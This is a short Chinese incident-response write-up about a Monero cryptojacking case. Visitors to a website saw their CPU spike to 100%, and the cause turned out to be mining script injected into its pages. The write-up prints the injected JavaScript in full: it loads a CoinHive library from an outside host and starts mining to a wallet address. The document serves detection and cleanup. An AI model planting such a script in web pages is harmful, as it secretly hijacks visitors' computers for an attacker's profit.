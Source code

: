 ## 第2篇：门罗币恶意挖矿

门罗币(Monero 或 XMR)，它是一个非常注重于隐私、匿名性和不可跟踪的加密数字货币。只需在网页中配置好js脚本，打开网页就可以挖矿，是一种非常简单的挖矿方式，而通过这种恶意挖矿获取数字货币是黑灰色产业获取收益的重要途径。

### 现象描述

利用XMR恶意挖矿，会大量占用用户的CPU资源，严重影响了网站的用户体验。

从08/09日0点开始，局域网内某IP访问网站页面会触发安全预警，只要访问此服务器上的网页，CPU直线上升100%

![](./image/2-5.jpg)

### 问题解析

通过获取恶意网页url，对网页页面进行分析，发现网站页面被植入在线门罗币挖矿代码：

`<script>  
    var script = document.createElement('script');  
    script.onload = function () {  
        // XMR Pool hash  
		var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu');  
       // TODO: Replace the below string with wallet string  
		m.start('47DuVLx9UuD1gEk3M4Wge1BwQyadQs5fTew8Q3Cxi95c8W7tKTXykgDfj7HVr9aCzzUNb9vA6eZ3eJCXE9yzhmTn1bjACGK');  
    };  
    script.src = 'https://coinhive.com/lib/coinhive.min.js';  
    document.head.appendChild(script);  
</script>  `

删除js里面的恶意代码，网站被XMR 恶意挖矿，服务器已经被攻击，进一步做服务器入侵排查。
